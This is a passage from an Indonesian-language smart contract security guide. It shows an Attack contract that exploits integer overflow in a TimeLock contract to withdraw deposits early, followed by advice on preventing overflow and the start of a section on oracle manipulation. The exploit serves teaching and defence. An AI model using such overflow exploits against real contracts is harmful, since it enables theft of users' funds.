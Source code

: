 ```

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Nephele");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Cara mencegah underflow dan overflow bilangan bulat

Sejak versi 0.8.0, pengompilasi Solidity menolak kode yang menghasilkan underflow dan overflow bilangan bulat. Namun, kontrak yang dikompilasi dengan versi pengompilasi yang lebih rendah harus melakukan pemeriksaan pada fungsi yang melibatkan operasi aritmatika atau menggunakan pustaka (misalnya, [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) yang memeriksa adanya underflow/overflow.

#### Manipulasi Oracle {#oracle-manipulation}

[Oracles](/developers/docs/oracles/) mengambil informasi di luar rantai dan mengirimnya ke dalam rantai agar dapat digunakan oleh kontrak pintar. Dengan oracle, Anda dapat mendesain kontrak pintar yang mendukung sistem di luar rantai, seperti pasar modal, sehingga dapat sangat memperluas penggunaannya.

Akan tetapi, jika oracle rusak dan mengirimkan informasi yang salah di dalam rantai, kontrak pintar akan dijalankan berdasarkan input yang salah sehingga dapat menimbulkan masalah. Ini adalah dasar dari "masalah oracle", yang berkaitan dengan tugas untuk memastikan informasi dari oracle rantai blok sudah akurat, mutakhir, dan tepat waktu.
